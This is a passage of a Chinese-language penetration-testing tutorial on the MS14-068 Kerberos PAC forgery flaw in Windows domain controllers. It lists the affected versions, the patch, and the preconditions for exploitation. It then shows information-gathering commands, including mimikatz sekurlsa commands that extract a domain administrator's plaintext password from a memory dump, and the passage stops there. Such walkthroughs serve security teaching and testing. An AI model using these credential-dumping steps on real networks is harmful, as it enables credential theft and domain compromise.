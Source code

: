如果能够拿到⽤户的 TGT，并将其倒⼊到内存，那么就可以冒充该⽤户获得其访问权限。

### ①MS14-068 漏洞

MS14-068 是密钥分发中⼼（KDC）服务中的 Windows 漏洞。它允许经过身份验证的⽤户在其 Kerberos 票据（TGT）中插⼊任意 PAC（表示所有⽤户权限的结果）。该漏洞位于 kdcsvc.dll 域控制器的密钥分发中⼼中。⽤户可以通过呈现具有改变 PAC 的 kerberos TGT 来获得票据。

> 需要⾼权限。

**影响范围**

-   Windows Server 2003、Windows Server 2008、Windows Server 2008 R2、Windows Server 2012 及 Windows Server 2012 R2
-   Windows Vista、Windows 7、Windows 8 及 Windows 8.1

**补丁编号与利⽤条件**

补丁编号：KB3011780

利⽤条件：

1.  获取到⼀台主机的权限（域内主机）
    
2.  收集到计算机域管理员⽤户的账号密码、SID、域名信息
    
3.  没打 MS14-068 补丁
    

### ②信息收集

```bash
1、域管理员⽤户的 SID
whoami /all  => S-1-5-21-863777703-696496247-1862912240-500

2、域管理员⽤户的明文密码
mimikatz.exe
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full    => Admin@123

3、域名信息（完整域名消息）
ipconfig /all
```
